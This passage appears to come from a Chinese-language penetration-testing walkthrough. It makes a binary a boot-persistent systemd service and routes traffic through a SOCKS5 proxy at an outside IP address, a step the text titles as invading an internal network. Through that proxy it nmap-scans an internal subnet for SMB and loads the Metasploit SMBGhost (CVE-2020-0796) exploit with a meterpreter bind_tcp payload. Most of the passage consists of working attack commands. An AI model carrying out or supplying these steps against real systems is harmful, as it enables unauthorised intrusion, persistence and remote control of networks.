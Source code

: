```
chmod +x /usr/bin/hello
```

```
systemctl start hello.service
```

查看状态

```
systemctl status hello.service
```

开机自启动

```
systemctl enable hello.service
```

## 6.3 配置代理入侵内网

打开配置文件

```
┌──(root㉿Kali-24)-[~]
└─# vim /etc/proxychains4.conf
```

注释 socks4 ，并在下方插入 socks

```
#socks4				127.0.0.1 9050
socks5				123.56.167.168 9999
```

用 nmap 扫描 DMZ 内网网段

```
┌──(root㉿Kali-24)-[~]
└─# proxychains nmap -Pn -sT -p 445 192.168.4.0/24
```

>-Pn：绕过防火墙，进行非 ping 扫描；
>-sT：TCP connect 扫描，全连接扫描。

通过代理启动 msf

```
┌──(root㉿Kali-24)-[~]
└─# proxychains4 msfdb run
```

加载  exploit

```
msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
```

代理访问内网 payload 选择 bind 模式（正向连接）

```
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set payload windows/x64/meterpreter/bind_tcp
```
